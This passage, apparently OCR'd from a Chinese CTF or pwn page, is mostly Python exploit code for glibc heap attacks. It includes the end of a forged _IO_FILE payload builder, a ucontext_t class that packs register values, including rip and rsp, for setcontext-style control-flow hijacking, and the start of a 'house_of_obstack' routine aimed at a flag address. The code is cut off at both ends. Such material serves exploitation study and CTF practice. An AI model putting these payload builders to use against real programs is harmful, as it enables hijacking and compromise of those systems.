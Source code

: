 ```python
        }, filler='\x00'
    )

    payload = fake_IO_file

    return payload
```

**结合house of 一骑当千**

```python
class ucontext_t:
    '''
    [0x1c0] must be NULL.
    '''
    length = 0x1c8
    bin_str = length * b'\0'
    rip = 0
    rsp = 0
    rbx = 0
    rbp = 0
    r12 = 0
    r13 = 0
    r14 = 0
    r15 = 0
    rsi = 0
    rdi = 0
    rcx = 0
    r8 = 0
    r9 = 0
    rdx = 0

    def __init__(self):
        pass

    def set_value(self, offset, value):
        if(offset <= 0 or offset > self.length - 8):
            raise Exception("Out bound!")
        temp = self.bin_str
        temp = temp[:offset] + struct.pack('Q', value) + temp[offset + 8:]
        self.bin_str = temp

    def __bytes__(self):
        self.set_value(0x28, self.r8)
        self.set_value(0x30, self.r9)     
        self.set_value(0x48, self.r12)
        self.set_value(0x50, self.r13)
        self.set_value(0x58, self.r14)
        self.set_value(0x60, self.r15)
        self.set_value(0x68, self.rdi)
        self.set_value(0x70, self.rsi)
        self.set_value(0x78, self.rbp)
        self.set_value(0x80, self.rbx)
        self.set_value(0x88, self.rdx)
        self.set_value(0x98, self.rcx)
        self.set_value(0xa0, self.rsp)
        self.set_value(0xa8, self.rip)  # rip
        self.set_value(0xe0, self.rip)  # readable

        return self.bin_str

def house_of_obstack(fake_IO_file_addr):
    flag_addr = fake_IO_file_addr + 0x400 
    data = fake_IO_file_addr + 0x410
```